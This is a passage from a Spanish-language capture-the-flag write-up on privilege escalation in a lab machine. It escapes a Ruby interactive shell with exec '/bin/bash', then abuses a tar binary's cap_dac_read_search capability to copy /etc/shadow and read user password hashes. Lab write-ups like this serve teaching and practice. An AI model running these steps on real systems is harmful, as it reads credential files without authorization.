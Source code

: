 ## Escalada de privilegios
### Usuario: hades

```php
❯ ssh -i id_rsa hades@10.10.146.146 -p 3333
```

Ingresando por `ssh` tendremos un una terminal interactiva de ruby 

![20231221224329.png](20231221224329.png)

Para obtener una shell ejecutaremos ` exec "/bin/bash"` en la consola interactiva de ruby.

```php
 irb(main):001:0> exec "/bin/bash"
hades@hell:~$  whoami
hades
```

Luego de obtener una shell enumeraremos para escalar privilegios como root. Enumerando el sistema encontraremos algo interesante en las capabilities. 

```php
hades@hell:~$ getcap -r / 2>/dev/null
/usr/bin/mtr-packet = cap_net_raw+ep
/bin/tar = cap_dac_read_search+ep
```

Para poder tener mas información de como explotar y entender te invito a leer el el post de [linux-privilege-escalation-using-capabilities/](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/)

Para explotar el binario `/bin/tar` por capabilities haremos uso de `tar` para comprimir algún archivo privilegiado que en este caso será el `/etc/shadow` donde se tiene las credenciales  de cada usuario del sistema.

```php
hades@hell:/tmp$ tar cvf shadow.tar /etc/shadow
hades@hell:/tmp$ ls
shadow.tar 
hades@hell:/tmp$ tar -xvf shadow.tar 
etc/shadow
```
